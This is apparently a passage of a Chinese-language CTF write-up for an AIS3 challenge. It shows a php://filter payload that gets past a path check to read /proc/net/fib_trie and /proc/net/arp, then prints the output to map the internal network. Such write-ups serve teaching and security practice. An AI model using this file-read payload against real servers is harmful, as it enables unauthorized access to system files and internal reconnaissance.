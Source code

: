 ```php

```

開頭不能是`/`和`.`，所以用php filter 繞過去，看/proc/net/fib_trie，看去年的writeup官方還給了[這個網站](http://wp.blkstone.me/2018/06/abusing-arbitrary-file-read/#421)讓你找東西玩wwww

```
https://shark.ais3.org/?path=php://filter/convert.base64-encode/resource=/proc/net/fib_trie
```

```
Main:
  +-- 0.0.0.0/0 3 0 5
     |-- 0.0.0.0
        /0 universe UNICAST
     +-- 127.0.0.0/8 2 0 2
        +-- 127.0.0.0/31 1 0 0
           |-- 127.0.0.0
              /32 link BROADCAST
              /8 host LOCAL
           |-- 127.0.0.1
              /32 host LOCAL
        |-- 127.255.255.255
           /32 link BROADCAST
     +-- 172.22.0.0/16 2 0 2
        +-- 172.22.0.0/30 2 0 2
           |-- 172.22.0.0
              /32 link BROADCAST
              /16 link UNICAST
           |-- 172.22.0.3  <--- 主機
              /32 host LOCAL
        |-- 172.22.255.255
           /32 link BROADCAST
Local:
  +-- 0.0.0.0/0 3 0 5
     |-- 0.0.0.0
        /0 universe UNICAST
     +-- 127.0.0.0/8 2 0 2
        +-- 127.0.0.0/31 1 0 0
           |-- 127.0.0.0
```

看 /proc/net/arp 也行得通？

```
IP address       HW type     Flags       HW address            Mask     Device
172.22.0.11      0x1         0x0         00:00:00:00:00:00     *        eth0
172.22.0.14      0x1         0x0         00:00:00:00:00:00     *        eth0
172.22.0.17      0x1         0x0         00:00:00:00:00:00     *        eth0
172.22.0.20      0x1         0x0         00:00:00:00:00:00     *        eth0
172.22.0.1       0x1         0x2         02:42:c9:d4:ce:4b     *        eth0
172.22.0.4       0x1         0x0         00:00:00:00:00:00     *        eth0
172.22.0.15      0x1         0x0         00:00:00:00:00:00     *        eth0
172.22.0.18      0x1         0x0         00:00:00:00:00:00     *        eth0
172.22.0.21      0x1         0x0         00:00:00:00:00
```
